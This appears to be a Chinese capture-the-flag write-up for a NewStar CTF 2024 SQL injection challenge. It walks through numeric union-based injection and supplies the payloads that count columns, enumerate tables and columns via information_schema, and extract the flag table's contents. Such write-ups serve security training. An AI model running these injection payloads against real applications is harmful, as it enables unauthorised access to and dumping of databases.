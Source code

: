 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```

<script setup>
import Container from '@/components/docs/Container.vue'
</script>

# 谢谢皮蛋

<Container type='tip'>

本题考查的是 SQL 注入的相关知识，如果你从未了解和接触过数据库和 SQL 语句，你可能需要花费一定的时间快速了解并尝试。
</Container>

题目考查数字型注入、联合注入

判断列数和回显位，其实看页面上的格式也基本可以判断

```sql
1 order by 2#
-1 union select 1,2#
```

查看当前数据库

```sql
-1 union select 1,database()#
```

![界面 1](/assets/images/wp/2024/week1/xiexiepidan_1.png)

查看当前数据库所有表名

```sql
-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![界面 2](/assets/images/wp/2024/week1/xiexiepidan_2.png)

查看 `Fl4g` 表所有列名

```sql
-1 union select 1,group_concat(column_name) from information_schema.columns where table_name='Fl4g' and table_schema=database()#
```

![界面 3](/assets/images/wp/2024/week1/xiexiepidan_3.png)

查看值得到 flag

```sql
-1 union select group_concat(des),group_concat(value) from Fl4g#
```
